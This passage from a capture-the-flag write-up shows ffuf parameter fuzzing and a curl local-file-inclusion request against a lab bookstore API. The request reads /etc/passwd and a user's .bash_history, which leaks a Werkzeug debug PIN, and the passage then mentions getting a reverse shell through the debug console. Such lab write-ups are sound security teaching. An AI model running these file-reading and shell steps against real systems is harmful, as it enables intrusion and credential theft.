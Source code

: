 Looks like version 1 is still up. Let's try fuzzing for parameters that aren't listed in the documentation.

```bash
ffuf -u 'http://bookstore.thm:5000/api/v1/resources/books?FUZZ=/etc/passwd' -w $(locate actions-lowercase)
```
            /'___\  /'___\           /'___\
           /\ \__/ /\ \__/  __  __  /\ \__/
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
             \ \_\   \ \_\  \ \____/  \ \_\
              \/_/    \/_/   \/___/    \/_/

    v1.1.0
    ________________________________________________

    :: Method           : GET
    :: URL              : http://bookstore.thm:5000/api/v1/resources/books?FUZZ=/etc/passwd
    :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/api/actions-lowercase.txt
    :: Follow redirects : false
    :: Calibration      : false
    :: Timeout          : 10
    :: Threads          : 40
    :: Matcher          : Response status: 200,204,301,302,307,401,403
    ________________________________________________

    show                    [Status: 200, Size: 1555, Words: 9, Lines: 31]
    :: Progress: [109/109] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::'

Finally a vulnerable parameter, and upon further inspection it turns out to be the LFI foreshadowed by the comment in `/login.html`.

```bash
curl -s 'http://bookstore.thm:5000/api/v1/resources/books?show=/home/sid/.bash_history'
```
    whoami
    export WERKZEUG_DEBUG_PIN=123-321-135
    echo $WERKZEUG_DEBUG_PIN
    python3 /home/sid/api.py
    ls
    exit

With access to the python console we can simply paste some code from [revshells.com](https://revshells.com) and get a shell.
